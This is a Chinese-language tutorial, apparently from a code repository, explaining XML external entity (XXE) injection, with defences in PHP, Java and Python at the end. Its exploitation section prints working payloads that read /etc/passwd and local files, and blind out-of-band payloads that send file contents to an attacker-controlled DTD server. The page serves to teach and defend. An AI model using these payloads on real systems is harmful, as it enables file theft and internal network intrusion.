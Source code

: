 ## XXE漏洞原理
XXE漏洞也叫XML外部实体注入。由于没有禁止外部实体的加载,攻击者可以加载恶意外部文件，而应用程序解析输入的XML数据时,解析了攻击者伪造的外部实体导致产生XML漏洞。

## XXE漏洞的危害
（1）读取任意文件</br>
（2）执行系统命令</br>
（3）内网端口扫描</br>
（4）攻击内网其他网站

## XXE漏洞的利用
一般xxe利用分为两大场景：有回显和无回显。有回显的情况可以直接在页面中看到payload的执行结果或现象，无回显的情况又称为blind xxe，可以使用外带数据通道提取数据。
### （一）有回显的情况
**（1）直接通过DTD外部实体声明**</br>
XML内容如下：
```
<?xml version="1.0"?>
<!DOCTYPE ANY [
<!ENTITY test SYSTEM "file:///etc/passwd">
]>
<abc>&test;</abc>
```
**（2）通过DTD文档引入外部DTD文档，再引入外部实体声明**</br>
XML内容如下：
```
<?xml version="1.0"?>
<!DOCTYPE a SYSTEM "http://localhost/evil.dtd">
<abc>&b;</abc>
evil.dtd内容：
<!ENTITY b SYSTEM "file:///etc/passwd">
```
**（3）通过DTD外部实体声明引入外部实体声明**</br>
XML内容如下:
```
<?xml version="1.0"?>
<!DOCTYPE a [
<!ENTITY % d SYSTEM "http://localhost/evil.dtd">
%d;
]>
<abc>&b;</abc>
```
evil.dtd内容：
```
<!ENTITY b SYSTEM "file:///etc/passwd">
```

### （二）无回显情况，又称blind xxe，使用外带数据通道提取数据
**（1）第一种无回显示payload**
```
<?xml version="1.0"?>
<!DOCTYPE a [
<!ENTITY % file SYSTEM "file:///c://test/1.txt">
<!ENTITY % dtd SYSTEM "http://localhost/evil.xml">
%dtd; %all;
]>
<abc>&send;</abc>
```
其中evil.xml文件内容为
```
<!ENTITY % all "<!ENTITY send SYSTEM 'http://localhost%file;'>">
```
调用过程为：参数实体dtd调用外部实体evil.xml，然后又调用参数实体all，接着调用实体send。

**（2）第二种无回显payload**
```
<?xml version="1.0"?>
<!DOCTYPE a [
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=c:/test/1.txt">
<!ENTITY % dtd SYSTEM "http://localhost/evil.xml">
%dtd;
%send;
]>
<abc></abc>
```
其中evil.xml文件内容为：
```
<!ENTITY % payload "<!ENTITY % send SYSTEM 'http://localhost/?content=%file;'>"> %payload;
```
调用过程和第一种方法类似，但最里层的嵌套里%要进行实体编码成%。无报错需要访问接受数据的服务器中的日志信息，可以看到经过base64编码过的数据，解码后便可以得到数据。</br>
这里注意参数实体引用%file;必须放在外部文件里，因为根据这条规则 。在内部DTD里，参数实体引用只能和元素同级而不能直接出现在元素声明内部，否则解析器会报错： PEReferences forbidden in internal subset。这里的internal subset指的是中括号[]内部的一系列元素声明，PEReferences 指的应该是参数实体引用 Parameter-Entity Reference 。</br>
一般都使用第二种方法，因为当文件中含有中文字符或<字符，会导致不能解析。

## XXE漏洞的防御
（1）禁用外部实体
```python
# 在php中，引用外部实体和libxml库有关系
# libxml > 2.9 默认不解析外部实体
libxml_disable_entity_loader(true);

# java:
DocumentBuilderFactory dbf =DocumentBuilderFactory.newInstance();
dbf.setExpandEntityReferences(false);

#python:
from lxml import etree
xmlData = etree.parse(xmlSource,etree.XMLParser(resolve_entities=False))
```
（2）过滤和验证用户提交的xml数据，防止出现非法内容；过滤关键词：<!DOCTYPE和<!ENTITY，或者SYSTEM和PUBLIC等。
